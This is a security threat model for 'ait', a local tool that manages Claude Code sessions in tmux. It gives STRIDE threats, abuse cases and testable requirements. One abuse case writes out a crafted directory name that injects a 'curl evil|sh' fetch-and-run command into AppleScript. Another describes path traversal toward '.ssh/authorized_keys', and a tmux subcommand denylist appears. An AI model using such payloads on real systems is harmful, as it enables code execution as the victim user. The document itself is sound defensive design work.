

# Threat Model: WO-C2E5A3 "AI tmux" (`ait`)

## 1. Scope and assumptions

**In scope:** the `ait` CLI (`bin/ait.js`), the hook script (`bin/ait-hook.js`), the dashboard TUI, the local state directory (`registry.json`, `events/`, `settings/`, `dashboard.lock`), the tmux contract on the dedicated socket `-L ait`, per-session Claude settings injection, OS notification helpers (`osascript`, `notify-send`), and the fallback `capture-pane` detector.

**Out of scope:** Claude Code itself, tmux internals, the OS, the terminal emulator, remote or multi-user use, network services (none exist).

**Assumptions**
- A1: Single user, single machine, macOS/Linux. No network listener and no remote API, so ASVS V2/V3/V9/V13 apply only in adapted form (local IPC, files, process identity).
- A2: The OS account boundary is the primary trust boundary. Other local users are untrusted; processes running as the same user are semi-trusted (this is the main residual risk).
- A3: Node 22 with zero npm dependencies, so supply-chain exposure is limited to Node, tmux and the Claude binary.
- A4: `--settings <file>` injection works (gating spike). If not, a project-local settings file is written, which raises the tampering exposure (T-09).
- A5: Claude Code sessions may run with powerful permissions (possibly `--dangerously-skip-permissions`), so anything that can influence what Claude is launched with, or what it is told, is a high-impact target.
- A6: Terminal content in panes is untrusted (it can include attacker-controlled text from repos, web pages and tool output).

## 2. Assets and data classification

| Asset | Classification | Why it matters |
|---|---|---|
| Live Claude Code sessions (processes, PTYs) | Critical (integrity/availability) | They hold the user's code authority; controlling them means code execution as the user |
| Pane content (capture-pane output) | Confidential | Can include source code, secrets, tokens printed by tools |
| `settings/<name>.json` (hook commands) | Critical (integrity) | Defines commands executed by Claude on events; tampering is code execution |
| `registry.json` (names, directories, args, Claude session IDs) | Internal / low-personal | Directory paths reveal project names and usernames; args may contain flags like permission-skipping |
| `events/<name>.json` | Internal | Drives state and notifications; spoofing causes missed or false alerts |
| Claude session IDs | Internal-sensitive | Allow resume of a conversation with its transcript |
| Notification text (name, project) | Internal | Visible on a lock screen or shared screen |
| tmux socket `ait` | Critical (integrity) | Anyone who can connect can attach to and type into every session |
| `dashboard.lock` | Low | Integrity only |

Personal data: the local username in paths and project names only. No credentials are stored by `ait` itself, and nothing leaves the machine.

## 3. Actors and trust boundaries

| Actor | Trust |
|---|---|
| End user (owner) | Trusted |
| Claude Code process and the content it processes | Semi-trusted: it runs hooks, but its inputs (repos, web, tool output) can carry prompt injection |
| Other local OS user | Untrusted |
| Other same-user process (malware, npm postinstall, a compromised tool) | Hostile-capable, mostly outside the model's control |
| Untrusted repository content (a `.claude/settings.json`, a directory named with metacharacters) | Untrusted |
| tmux server, OS notification service | Trusted platform components |

Trust boundaries: TB1 user keyboard to `ait` process; TB2 `ait` to tmux server (socket); TB3 Claude process (and untrusted content) to hook script and event files; TB4 `ait` to filesystem state dir; TB5 `ait` to OS notification subsystem.

## 4. Data-flow diagram

## 5. Threat table (STRIDE)

Likelihood/Impact: L/M/H.

| ID | Component | Threat | STRIDE | Lik. | Imp. | Risk | Mitigation | Status |
|---|---|---|---|---|---|---|---|---|
| T-01 | tmux socket (`-L ait`) | Another local user connects to the socket and controls sessions (impersonating the owner) | S / E | M | H | High | Socket dir under per-user `/tmp/tmux-<uid>` with 0700; verify at startup that the socket dir is owned by the current uid and not group/world accessible, else refuse | Open |
| T-02 | `ait-hook.js` / event files | A process or Claude content writes a forged event for a session (fake `idle`/`running`) to hide a waiting prompt | S | M | M | Medium | Event file dir 0700, files 0600; hook validates `AIT_SESSION` against `^[a-z0-9_-]{1,24}$`; dashboard drops events for names not in registry and events with `ts` older than the session `createdAt` or in the future | Open |
| T-03 | Event files | Path traversal through `AIT_SESSION` or `ait hook` args (`../../x`) writes outside `events/` | T / E | M | H | High | Validate name before building any path; resolve the path and assert it is inside `AIT_HOME/events`; reject otherwise | Open |
| T-04 | `registry.json` | Tampering changes `dir` or `args` (e.g. adds `--dangerously-skip-permissions`) which is used at the next launch or resume | T / E | L | H | Medium | 0600/0700; schema-validate registry on load (types, name regex, absolute dir, args allowlist-shape); re-validate dir at use; never execute anything from registry other than the resolved `claude` path | Open |
| T-05 | `launch.js` argv | Shell or tmux command injection through name, dir or extra args | T / E | M | H | High | `execFile` only, argv array, `--` before claude args; `-t =ait-<name>` exact target; name regex; dir resolved with `realpath` and checked as a directory; no shell string concatenation anywhere | Open |
| T-06 | `claude` path resolution | A malicious `claude` earlier on PATH or in cwd is launched | S / E | L | H | Medium | Resolve absolute path once (`ait doctor`), refuse relative or world-writable locations, display the path at launch, never include `.` in lookup | Open |
| T-07 | Notifications | AppleScript/notify-send injection through session name or directory | T / E | M | H | High | Name regex bounds name; directory text is escaped for `\` and `"`; pass as `execFile` args with the script reading `argv` instead of interpolating; strip control characters | Open |
| T-08 | Notifications | Sensitive project names shown on the lock screen or a shared screen | I | M | L | Low | Setting `desktopNotify` with `redact` mode (name only, no path); default shows name only | Open |
| T-09 | Per-session settings file | Settings file modified between write and Claude read; hook command changed to arbitrary code | T / E | L | H | Medium | Create with `0600` via `O_EXCL` in a 0700 dir; hook command is absolute path of `node` and `ait-hook.js` with fixed args; verify the file hash before each launch; if the fallback project-local file is used, merge, never overwrite, and record it | Open |
| T-10 | Project `.claude/settings.json` in untrusted repo | Repo-supplied hooks or settings run on launch in the managed session | E | M | H | High | Document the risk; `ait doctor` warns when the target dir has `.claude/settings*.json` with hooks; show a one-time confirm for new directories | Open |
| T-11 | Fallback detector | Pane text crafted by an attacker (prompt injection output) mimics or hides "waiting" patterns | S / T | M | M | Medium | Mark fallback as degraded; match last N lines only; bias to false `waiting`; never take actions based on pane text beyond display | Open |
| T-12 | Dashboard rendering | Terminal escape sequences in names, branches, directories or pane text hijack the terminal (title change, cursor tricks) | T / I | M | M | Medium | Strip C0/C1 control characters and ESC from every string before render; the render layer outputs only through one sanitizing function | Open |
| T-13 | Pane content (`capture`) | Capture output kept in memory or logs leaks secrets | I | L | M | Low | Process in memory only, never persist or log raw capture; log only the matched state | Open |
| T-14 | State dir permissions | Directory or file created with a permissive umask exposes registry, Claude session IDs | I | M | M | Medium | `mkdir` mode 0700, explicit `chmod` after create, check and fix modes at startup, refuse symlinked state dir | Open |
| T-15 | Symlink/race on state files | Predictable names in a writable path let another process pre-create symlinks (TOCTOU) | T / E | L | M | Low | Temp file with random suffix in same dir, `O_EXCL`, `rename`; do not follow symlinks (`lstat` check) | Open |
| T-16 | Dashboard actions (kill, rename, number hotkeys) | Mis-targeted action (list reorder, prefix match) kills the wrong session or opens the wrong one | T / R | M | M | Medium | Stable IDs, exact-match `=` targets, selection keyed by name; kill requires `y`; re-check the session still matches id and name before the tmux call | Open |
| T-17 | Action audit | The user or a script cannot establish who killed or removed a session or when | R | M | L | Low | Append-only `audit.log` (0600): timestamp, action, session name/id, outcome; log rotation by size | Open |
| T-18 | Hook failures | Silent hook failures cause missed waiting alerts with no trace | R / D | M | M | Medium | `ait doctor` and dashboard show "no events in 10 s, fallback" and log the reason; hook writes errors to a rotating log, still exit 0 | Open |
| T-19 | Hook script | Oversized or malformed stdin JSON exhausts memory or crashes the hook | D | L | L | Low | Cap stdin at 64 KiB; parse in try/catch; store only whitelisted fields (`event`, `kind`, `claudeSessionId`) with type and length checks | Open |
| T-20 | Event directory flood | A process creates many event files or rapid rewrites to starve the UI | D | L | M | Low | Process only files whose name matches a registry entry; coalesce `fs.watch` with a 100 ms debounce; cap per-render work | Open |
| T-21 | tmux call blocking | A hung tmux server freezes the TUI | D | M | M | Medium | 2 s `execFile` timeout with `killSignal`; keep last data and mark stale; never await tmux in the render path | Open |
| T-22 | Notification spam | Flapping state or a crafted burst triggers endless bells/notifications | D | M | L | Low | Debounce 500 ms, once per transition, coalesce within 2 s, global cap (e.g. 10 per minute) | Open |
| T-23 | `dashboard.lock` | Stale or forged lock prevents starting the dashboard, or points to an unrelated PID | D / S | L | L | Low | Verify the PID is alive and its command matches `ait`; otherwise replace the lock | Open |
| T-24 | Registry/corruption | Corrupt or huge `registry.json` crashes the start-up | D | L | M | Low | Size cap (1 MiB), parse in try/catch, back up to `.bak`, start empty with banner | Open |
| T-25 | Return-key binding / status | Binding on a shared default server overrides the user's own key; status text injection | T | L | L | Low | Bind only on the `ait` socket; when `AIT_SOCKET=default`, refuse silently overwriting an existing binding and instead warn; sanitize status text | Open |
| T-26 | `send-keys` capability | A later change or bug types into a session, approving a destructive tool call | E / T | L | H | Medium | Prohibit `send-keys`/`paste-buffer`/`run-shell` in `tmux.js`; central allowlist of tmux subcommands; unit test greps and enforces | Open |
| T-27 | Same-user hostile process | Any process running as the user can already use tmux, files and signals directly | E | M | H | High | Cannot be fully mitigated by `ait`; see residual risk R-1 | Accepted |
| T-28 | Error output | Error messages or stack traces reveal paths, environment or tokens | I | M | L | Low | User-facing errors use the fixed microcopy; stack traces only under `AIT_DEBUG=1`; never print environment variables | Open |
| T-29 | `--json` / `ait ls` output | Output piped into other tools leaks directories and IDs | I | L | L | Low | Omit `claudeSessionId` and `args` from default output; expose only with `--verbose` | Open |
| T-30 | Environment passthrough | `tmux new-session` inherits secrets (API keys) that become visible in `tmux show-environment` or process listings | I | M | M | Medium | Pass only what is needed through `-e`; never put secrets in argv; do not copy the environment into registry or logs | Open |

## 6. Abuse cases

1. **Poisoned repo hooks.** The user launches a session in a freshly cloned repo that ships `.claude/settings.json` with a `Notification` hook. The hook runs a payload and also writes forged `idle` events so the dashboard shows the session as calm. (T-10, T-02, T-11)
2. **Local second user on a shared dev box.** Another account lists `/tmp`, finds the tmux socket directory and tries to attach, or the state dir was created with a lax umask and they read Claude session IDs and project paths. (T-01, T-14)
3. **Name/path injection via crafted directory.** A directory named `~/x"; do shell script "curl evil|sh` is launched; its path ends up in an AppleScript string for the desktop notification. (T-07, T-05)
4. **Hook traversal.** A tool inside Claude calls `ait hook Stop` with `AIT_SESSION=../../.ssh/authorized_keys`-like input, trying to overwrite files owned by the user. (T-03)
5. **Terminal escape smuggling.** Pane output or a git branch name contains escape sequences that rewrite the dashboard so a "WAITING" row appears as "DONE", or inject OSC sequences. (T-12, T-11)
6. **Wrong-session kill.** A state change reorders the list while the user presses `x` then `y`, killing a session mid-migration that was not meant to die. (T-16)

## 7. Security requirements

| ID | Requirement (testable) | Threat(s) | ASVS |
|---|---|---|---|
| SEC-REQ-1 | At startup, `ait` verifies the tmux socket directory is owned by the current uid and mode has no group/world bits; otherwise exits with an error. Test: simulate a 0755 dir, expect refusal. | T-01 | V14, V4 |
| SEC-REQ-2 | Session names must match `^[a-z0-9_-]{1,24}$` at every entry point (CLI, dialog, hook env, registry load, event file name); non-matching input is rejected before any path or argv is built. Test: fuzz with `../`, `;`, quotes, NUL, unicode. | T-03, T-05, T-02 | V5 |
| SEC-REQ-3 | Every file path under `AIT_HOME` is built via one helper that resolves and asserts a prefix of `AIT_HOME/<subdir>`; helper rejects symlinks via `lstat`. Test: `AIT_SESSION=../x` writes nothing outside. | T-03, T-15 | V12 |
| SEC-REQ-4 | All subprocesses use `execFile`/`spawn` with argv arrays and no `shell:true`; a unit test fails if `child_process.exec`, `shell: true`, or template-built commands appear in `src/` or `bin/`. | T-05, T-07 | V5 |
| SEC-REQ-5 | Notification text is passed as argv (AppleScript reads `argv`), strips control characters and escapes `\` and `"`; test with names/paths containing quotes, backslashes, newlines and `$()`. | T-07 | V5 |
| SEC-REQ-6 | State dir created 0700 and files 0600 (`O_EXCL` + `rename`); startup verifies and repairs modes, and refuses a symlinked state dir. Test: check `stat` after fresh run with umask 000. | T-14, T-15, T-09 | V8, V12 |
| SEC-REQ-7 | `registry.json` and event files are schema-validated on load (types, regex, absolute dir, size ≤ 1 MiB, event ≤ 64 KiB, whitelisted fields); invalid data is ignored or backed up, never crashes. Test: corpus of malformed files. | T-04, T-19, T-24, T-02 | V5, V7 |
| SEC-REQ-8 | The dashboard discards events whose session is not in the registry, whose `ts` predates `createdAt`, or is more than 5 s in the future. Test with crafted events. | T-02, T-20 | V4, V5 |
| SEC-REQ-9 | `claude` is resolved to an absolute path once, must not be in a world-writable directory or relative to cwd, and the path is shown in launch confirmation and `ait doctor`. | T-06 | V1, V14 |
| SEC-REQ-10 | Per-session settings file is created with `O_EXCL`, 0600; its hook command is a fixed argv of absolute `node` and `ait-hook.js`; its hash is verified before each launch. Test: modify file, launch must fail. | T-09 | V14, V10-integrity (V1) |
| SEC-REQ-11 | On first launch in a directory containing `.claude/settings*.json` with a `hooks` key, `ait` prints a warning and requires confirmation (`--yes` to skip). | T-10 | V14 |
| SEC-REQ-12 | All externally derived strings (names, dirs, branches, capture text) pass through one `sanitize()` that removes ESC and C0/C1 control characters before render, status-line, or notification. Test with OSC/CSI payloads. | T-12, T-25 | V5 |
| SEC-REQ-13 | `tmux.js` exposes only an allowlist of subcommands (`new-session, list-sessions, set-option, switch-client, attach-session, kill-session, capture-pane, bind-key, show, display-message`); a test fails if `send-keys`, `paste-buffer`, `run-shell`, `pipe-pane` appear. | T-26, T-27 | V1, V4 |
| SEC-REQ-14 | Kill and rm resolve the target by registry id and name together, use `=ait-<name>` exact targets, and require explicit `y`; Enter alone cancels. Test: reorder during dialog, verify target unchanged. | T-16 | V4 |
| SEC-REQ-15 | An append-only `audit.log` (0600, size-rotated) records timestamp, action (`new/kill/rm/open`), session name and id, and result. | T-17 | V7 |
| SEC-REQ-16 | The hook always exits 0, caps stdin at 64 KiB, and on error appends a sanitized line to `hook-errors.log`; the dashboard shows "fallback/degraded" when no event arrives within 10 s. | T-18, T-19 | V7 |
| SEC-REQ-17 | All tmux invocations have a 2 s timeout; the UI never awaits tmux on the render path; timeout shows `stale`. Test with a stub that hangs. | T-21 | V1 |
| SEC-REQ-18 | Notifications: once per transition, 500 ms debounce, 2 s coalescing, max 10 desktop notifications per minute. | T-22 | V8 |
| SEC-REQ-19 | `dashboard.lock` is trusted only if the PID is alive and its command line contains `ait`; otherwise it is replaced. | T-23 | V1 |
| SEC-REQ-20 | Error output uses fixed microcopy; stack traces and env only with `AIT_DEBUG=1`; raw `capture-pane` text and environment variables are never written to disk or logs. | T-13, T-28, T-30 | V7, V8 |
| SEC-REQ-21 | Desktop notification content defaults to session name only; path is shown only with `notifyShowPath=true`. | T-08 | V8 |
| SEC-REQ-22 | Return-key binding and status settings are applied on the `ait` socket only; with `AIT_SOCKET=default`, an existing binding for the key is detected and left untouched with a warning. | T-25 | V14 |
| SEC-REQ-23 | `ait ls --json` omits `claudeSessionId` and `args` unless `--verbose`. | T-29 | V8 |
| SEC-REQ-24 | Fallback detection is flagged `degraded`, reads only the last 40 lines, and ambiguous matches resolve to `waiting`. | T-11 | V1 |

## 8. Residual and accepted risks

- **R-1 (T-27):** a process running as the same OS user can bypass every control (read files, use tmux, send keys, edit settings). Accepted: an OS-level boundary within one account is outside this tool's reach; file permissions only block other users.
- **R-2:** prompt injection through content Claude reads can cause Claude to take actions under the user's permissions. This is inherent to Claude Code and is not changed by `ait`.
- **R-3:** the fallback detector can be fooled by crafted pane text; accepted because it is flagged degraded and errs toward false `waiting`.
- **R-4:** desktop notifications can still disclose a session name on a shared or recorded screen; accepted with the `name only` default.
- **R-5:** a malicious `claude` binary installed by the user itself is trusted.
- **R-6:** audit log is not tamper-proof against the same user.

## 9. Open questions

1. Does the installed Claude Code honour `--settings <file>` and merge it with project hooks, or is project precedence different? (Decides T-09/T-10 mitigations.)
2. Will `AIT_SOCKET=default` be used often? If yes, T-25 and shared-config risks need a stronger design.
3. Should `args` allow `--dangerously-skip-permissions`, or warn/confirm when it is present?
4. Is the machine shared with other accounts (multi-user dev box)? This raises T-01/T-14 from Medium.
5. Are session IDs and directories acceptable in `ait ls --json` for scripts, or should they be restricted?
6. Is audit logging wanted at all for a solo tool, or only during the pilot?
7. Is a confirm for repos with project-level hooks (SEC-REQ-11) acceptable friction?
